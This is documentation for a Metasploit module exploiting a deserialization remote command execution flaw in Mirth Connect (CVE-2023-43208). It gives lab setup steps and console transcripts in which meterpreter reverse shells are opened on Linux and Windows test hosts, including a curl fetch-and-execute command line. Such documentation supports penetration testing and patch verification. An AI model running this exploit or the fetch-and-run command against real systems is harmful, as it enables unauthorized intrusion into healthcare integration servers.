 ## Vulnerable Application
A vulnerability exists within Mirth Connect due to it's mishandling of deserialized data. This vulnerability
can be leveraged by an attacker using a crafted HTTP request to execute OS commands within the context of the
target application. The original vulnerability was identified by IHTeam and assigned CVE-2023-37679. Later,
researchers from Horizon3.ai determined the patch to be incomplete and published a gadget chain which bypassed
the deny list that the original had implemented. This second vulnerability was assigned CVE-2023-43208 and was
patched in Mirth Connect version 4.4.1. This module has been tested on versions 4.1.1, 4.3.0 and 4.4.0.

### Setup (Linux with Docker)

1. Run the application in docker: `docker run --name mirth-connect --rm -d -p 8443:8443 nextgenhealthcare/connect:4.4.0`

### Setup (Windows)

1. Download the desired release from the [GitHub page][1]
2. Install a Java runtime
3. Install Mirth Connect
    1. Accept all default values for every stage of the installation

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/mirth_connect_cve_2023_43208`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Mirth Connect 4.4.0 in Docker

Note that Python is not available in the docker container, so no Python payloads will work.

```
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Unix\ Command 
TARGET => Unix Command
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http
Display all 106 possibilities? (y or n)
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > exploit

[*] Command to run on remote host: curl -so /tmp/PFYkPcUX http://192.168.159.128:8080/jvE_gjDKxuQo86-91TitNQ; chmod +x /tmp/PFYkPcUX; /tmp/PFYkPcUX &
[*] Fetch Handler listening on 192.168.159.128:8080
[*] HTTP server started
[*] Adding resource /jvE_gjDKxuQo86-91TitNQ
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.1.1
[+] The target appears to be vulnerable. Version 4.1.1 is affected by CVE-2023-37679.
[*] Executing cmd/linux/http/x64/meterpreter/reverse_tcp (Unix Command)
[*] Client 192.168.159.128 requested /jvE_gjDKxuQo86-91TitNQ
[*] Sending payload to 192.168.159.128 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.159.128
[*] Meterpreter session 6 opened (192.168.159.128:4444 -> 192.168.159.128:49360) at 2024-01-26 17:11:37 -0500

meterpreter > getuid
Server username: mirth
meterpreter > sysinfo
Computer     : 10.0.2.100
OS           : Debian 11.4 (Linux 6.6.12-200.fc39.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/connect
meterpreter >
```

### Mirth Connect 4.4.0 on Windows Server 2019

```
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Windows\ Command 
TARGET => Windows Command
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > run

[*] Powershell command length: 4418
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.4.0
[+] The target appears to be vulnerable. Version 4.4.0 is affected by CVE-2023-43208.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[*] Sending stage (201798 bytes) to 192.168.159.10
[*] Meterpreter session 5 opened (192.168.159.128:4444 -> 192.168.159.10:60705) at 2024-01-26 17:10:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 13
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\Mirth Connect
meterpreter > 
```

[1]: https://github.com/nextgenhealthcare/connect/releases

